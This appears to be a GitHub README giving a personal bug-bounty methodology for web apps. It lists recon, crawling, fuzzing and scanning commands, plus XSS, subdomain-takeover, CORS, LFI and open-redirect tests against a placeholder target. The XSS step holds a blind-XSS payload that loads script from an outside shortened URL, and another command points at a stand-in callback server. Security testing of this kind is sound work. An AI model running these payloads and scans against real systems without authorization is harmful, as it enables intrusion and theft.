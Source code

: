 # 🐦‍🔥 Bug Hunting Methodology 🚀  

## 📌 Overview  
This repository contains my **Bug Hunting Methodology** for discovering vulnerabilities in web applications. It includes **subdomain enumeration, crawling, JavaScript analysis, directory brute-forcing, XSS, subdomain takeover, CORS misconfigurations, LFI, Open Redirects**, and more.  

## 🔥 Methodology Steps  

### **1️⃣ Subdomain Enumeration**  

1. subfinder -d target.com -all -recursive > subdomains.txt  
2. assetfinder --subs-only target.com >> subdomains.txt  
3. amass enum -passive -d target.com >> subdomains.txt  
4. cat subdomains.txt | sort -u > subdomains_final.txt  
5. cat subdomains_final.txt | httpx -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt

### **2️⃣ Crawling & URL Extraction** 
1. katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt  
2. cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"  

### **3️⃣ JavaScript Analysis** 
1. cat allurls.txt | grep -E "\.js$" >> js.txt  
2. cat js.txt | nuclei -t ~/nuclei-templates/http/exposures/  
3. cat js.txt | xargs -I {} curl -s {} | grep -oP 'https?:\/\/[^\"\']+'  

### **4️⃣ Directory & File Discovery** 
1. dirsearch -u https://target.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,py,php,log,rar,zip,tar,txt,xml,js,json  
2. ffuf -u https://target.com/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50  

### **5️⃣ XSS Testing** 
1. subfinder -d target.com | httpx -silent | katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://lnkd.in/gBHQ5bTX></script>' -parameters  
2. dalfox file allurls.txt --blind "https://yourbxssserver.com"  

### **6️⃣ Subdomain Takeover** 
1. subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl  
2. subjack -w subdomains_alive.txt -t 50 -o takeover.txt -ssl  

### **7️⃣ CORS Misconfiguration** 
1. python3 corsy.py -i subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"  
2. nuclei -list subdomains_alive.txt -t ~/Priv8-Nuclei/cors

### **8️⃣ LFI, Open Redirect & Other Tests** 
1. cat allurls.txt | gf lfi | nuclei -tags lfi  
2. cat allurls.txt | gf redirect | openredirex -p ~/openRedirect  
3. python3 paramspider.py --domain target.com --subs False --level high --exclude jpg,png,css,js  

### **🔗 Tools Used** 
* Subfinder
* Assetfinder
* Amass
* HTTPX
* Katana
* Nuclei
* GF
* Dirsearch
* FFUF
* Dalfox
* Subzy
* Subjack
* Corsy
* OpenRedireX
* ParamSpider

### **🚀 Next Steps** 
* Test against bug bounty programs
* Automate workflow
* Improve methodology

### **💀 Disclaimer** 
This repository is for educational purposes only. Do not use these techniques on unauthorized systems. I am not responsible for any misuse of this information.

### **🌟 Connect With Me** 
##### 📺 YouTube: [[Cybertech Secrets]](https://www.youtube.com/@CyberTechSecrets)
##### 📧 Email: [cybertechsecrets@gmail.com]
##### 🔗 LinkedIn: [[LinkedIn]](https://www.linkedin.com/in/abu76/)
